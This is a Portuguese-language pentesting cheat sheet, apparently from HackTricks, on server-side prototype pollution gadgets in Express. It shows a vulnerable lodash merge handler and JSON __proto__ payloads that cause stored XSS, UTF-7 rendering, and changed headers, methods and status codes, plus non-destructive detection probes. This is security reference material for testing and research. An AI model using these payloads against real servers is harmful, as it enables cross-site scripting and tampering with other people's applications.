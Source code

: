 # Gadgets de Poluição de Protótipo do Express

{{#include ../../../banners/hacktricks-training.md}}

## Servir respostas XSS

**Para mais detalhes** [**dê uma olhada na pesquisa original**](https://portswigger.net/research/server-side-prototype-pollution)

### Mudar o tipo de conteúdo JSON para HTML

Em um aplicativo Express usando uma **resposta de tipo de conteúdo JSON** e refletindo um JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Nestes casos, XSS normalmente não é possível com um tipo de conteúdo JSON. No entanto, com a poluição de protótipos, podemos **confundir o Express para servir uma resposta HTML.** Essa vulnerabilidade depende da aplicação usar **`res.send(obj)`** e usar o analisador de corpo com o tipo de conteúdo application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Ao **poluir** as propriedades **`body`** e **`_body`**, é possível fazer com que **o Express sirva o tipo de conteúdo HTML** e reflita a propriedade `_body`, resultando em XSS armazenado.

### Renderizar UTF7

É possível fazer o express **renderizar conteúdo UTF-7 com**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Técnicas de Escaneamento Seguras

### Espaços JSON

O seguinte PP fará com que os atributos dentro de um JSON tenham um espaço extra que não quebrará a funcionalidade:
```json
{ "__proto__": { "json spaces": " " } }
```
Então um JSON refletido ficará assim:
```json
{"foo":  "bar"} -- Note the extra space
```
### Cabeçalhos Expostos

O seguinte gadget de PP fará com que o servidor envie de volta o cabeçalho HTTP: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Requer o **módulo CORS instalado**

### **Método OPTIONS**

Com o seguinte payload, é possível **ocultar um método de uma resposta OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

É possível alterar o **código de status retornado** usando o seguinte payload de PP:
```json
{ "__proto__": { "status": 510 } }
```
### Erro

Quando você atribui a um protótipo com um primitivo como uma string, isso produz uma **operação no-op, uma vez que o protótipo tem que ser um objeto**. Se você tentar atribuir um objeto protótipo ao `Object.prototype` em si, isso **gerará uma exceção**. Podemos usar esses dois comportamentos para **detectar se a poluição do protótipo foi bem-sucedida**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Valor Refletido

Quando uma aplicação inclui um objeto em sua resposta, criar um atributo com um **nome incomum junto com `__proto__`** pode ser revelador. Especificamente, se **apenas o atributo incomum for retornado** na resposta, isso pode indicar a vulnerabilidade da aplicação:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Além disso, em cenários onde uma biblioteca como Lodash é empregada, definir uma propriedade tanto via poluição de protótipo (PP) quanto diretamente dentro do objeto oferece outra abordagem diagnóstica. Se tal propriedade for omitida da resposta, isso sugere que Lodash está verificando a existência da propriedade no objeto alvo antes de mesclar:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Diversos

### Permitir Pontos

Há uma opção no Express que permite **criar objetos a partir de parâmetros de string de consulta**.\
Você definitivamente poderia usá-la em uma **cadeia** de bugs para explorar uma **vulnerabilidade de poluição de protótipo**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` cria um objeto no Node.**

## Referências

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
